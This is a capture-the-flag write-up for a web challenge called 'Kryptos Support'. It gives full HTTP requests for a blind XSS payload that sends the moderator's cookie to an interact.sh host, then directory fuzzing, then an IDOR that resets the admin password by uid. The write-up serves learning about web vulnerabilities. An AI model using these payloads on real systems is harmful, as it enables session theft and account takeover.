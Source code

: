 # Kryptos Support

TL;DR:

- Using OAST technique with blind XSS to steal moderator cookie.
- IDOR + Account takeover to get admin access

From the index page we can see that we can report an issue in a text-area and send it.

![1.png](Kryptos%20Support%200d1ec119df354f85a927bba805eb7857/1.png)

Let us report a dummy issue. 

```bash
POST /api/tickets/add HTTP/1.1
Host: 46.101.30.188:32677
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://46.101.30.188:32677/
Content-Type: application/json
Origin: http://46.101.30.188:32677
Content-Length: 46
Connection: close

{"message":"Nehal hacks for Vimal Pan Masala"}
```

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 55
ETag: W/"37-xX0taFpln/xC3zxt223Qgw6N4F8"
Date: Sun, 15 May 2022 18:11:00 GMT
Connection: close

{"message":"An admin will review your ticket shortly!"}
```

We see can see a response in JSON that says “**An admin will review your ticket shortly!**”. 

It gives an indication that the admin user will open the report issued in his browser.

If that is the case, we can achieve a blind XSS here. 

Why blind ? It is because we do not see the reported issue in our side.

Let us first test if blind XSS is possible here.

I will use OAST techniques with XSS payload to trigger an out-of-band interaction with a domain that we control.

**PAYLOAD**:

```html
<img src="http://ca0jy182vtc0000xb060gfyjxbyyyyyyb.interact.sh" alt="NehalHacksForVimalPanMasala" />
```

```bash
POST /api/tickets/add HTTP/1.1
Host: 46.101.30.188:32677
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://46.101.30.188:32677/
Content-Type: application/json
Origin: http://46.101.30.188:32677
Content-Length: 118
Connection: close

{"message":"<img src=\"http://ca0jy182vtc0000xb060gfyjxbyyyyyyb.interact.sh\" alt=\"NehalHacksForVimalPanMasala\" />"}
```

**REQUEST TO INTERACTSH**:

```bash
GET / HTTP/1.1
Host: ca0jy182vtc0000xb060gfyjxbyyyyyyb.interact.sh
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:1337/
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/101.0.4950.0 Safari/537.36
```

Since I can see an interaction to my interactsh subdomain, it is confirmed that the web application is indeed vulnerable to blind XSS.

Let us now try to steal the admin cookie.

**PAYLOAD**:

```jsx
<script>
document.write('<img src="http://ca0jy182vtc0000xb060gfyjxbyyyyyyb.interact.sh/?c='+document.cookie+'" />');
</script>
```

```bash
POST /api/tickets/add HTTP/1.1
Host: 46.101.30.188:32677
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://46.101.30.188:32677/
Content-Type: application/json
Origin: http://46.101.30.188:32677
Content-Length: 145
Connection: close

{"message":"<script>\ndocument.write('<img src=\"http://ca0jy182vtc0000xb060gfyjxbyyyyyyb.interact.sh/?c='+document.cookie+'\" />');\n</script>"}
```

**REQUEST TO INTERACTSH:**

```bash
GET /?c=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MzkwMzR9.Vl9JQDK1HWtW_ey7q49SCo7guxyRtBYiNYUDe3xSIfA HTTP/1.1
Host: ca0jy182vtc0000xb060gfyjxbyyyyyyb.interact.sh
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:1337/
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/101.0.4950.0 Safari/537.36
```

Now we can use this cookie to get admin access.

Hmmm. Even though we used the cookie, we do not know which endpoint to reach to get elevated access. Time for some directory fuzzing.

```bash
**~ ❯ sudo dirsearch -u http://46.101.30.188:32677/ -w /usr/share/wordlists/dirb/big.txt 
[sudo] password for kali: 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 20469

Output File: /usr/local/lib/python3.9/dist-packages/dirsearch/reports/138.68.183.64:30229/-_22-05-15_12-38-37.txt

Error Log: /usr/local/lib/python3.9/dist-packages/dirsearch/logs/errors-22-05-15_12-38-37.log

Target: http://138.68.183.64:30229/

[12:38:38] Starting: 
[12:38:46] 302 -   23B  - /ADMIN  ->  /   
[12:38:46] 302 -   23B  - /Admin  ->  /
[12:38:47] 200 -    2KB - /Login                    
[12:38:53] 302 -   23B  - /admin  ->  /      
[12:40:01] 200 -    2KB - /login                  
[12:40:01] 302 -   23B  - /logout  ->  / 
[12:40:39] 302 -   23B  - /settings  ->  /    
[12:40:46] 301 -  179B  - /static  ->  /static/
[12:40:53] 302 -   23B  - /tickets  ->  /       
                                            
Task Completed
<dirsearch.dirsearch.Program object at 0x7f18da37cd30>**
```

We have a `/admin` here. But going to that endpoint, it redirects us to `/tickets`. Moreover, we can see that we are logged in as **moderator**. So we are not really an admin.

If we go to the `/settings` endpoint, we get to see that we can change our password.

![2.png](Kryptos%20Support%200d1ec119df354f85a927bba805eb7857/2.png)

Let us see how this feature works.

```bash
POST /api/users/update HTTP/1.1
Host: 46.101.30.188:32677
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://46.101.30.188:32677/settings
Content-Type: application/json
Origin: http://46.101.30.188:32677
Content-Length: 54
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MzkwMzR9.Vl9JQDK1HWtW_ey7q49SCo7guxyRtBYiNYUDe3xSIfA

{"password":"nehalHacksForVimalPanMasala","uid":"100"}
```

This is interesting. For updating password, we do not need to know the previous password. Moreover, the password is updated based on the `uid` only. If the server backend does not validate the `uid`, we may be able to find an `IDOR` here with which we can change any arbitrary user’s password. If the password is changed, we are successfully able to escalate the `IDOR` to an `Admin Account Takeover` with admin’s `uid` which is brute-forcible. 

Let us try that out with `uid` = 1 (just random).

```bash
POST /api/users/update HTTP/1.1
Host: 46.101.30.188:32677
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://46.101.30.188:32677/settings
Content-Type: application/json
Origin: http://46.101.30.188:32677
Content-Length: 52
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MzkwMzR9.Vl9JQDK1HWtW_ey7q49SCo7guxyRtBYiNYUDe3xSIfA

{"password":"nehalHacksForVimalPanMasala","uid":"1"}
```

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 54
ETag: W/"36-RArwqjccHL1q7o0owZa+anWnvtw"
Date: Sun, 15 May 2022 18:40:56 GMT
Connection: close

{"message":"Password for admin changed successfully!"}
```

 

The response message confirms that we have successfully changed the admin password.

Now just login as admin. Remember, we have a `/login` endpoint.

![3.png](Kryptos%20Support%200d1ec119df354f85a927bba805eb7857/3.png)

That is all in this challenge 🙂 Hope you liked the writeup 🙂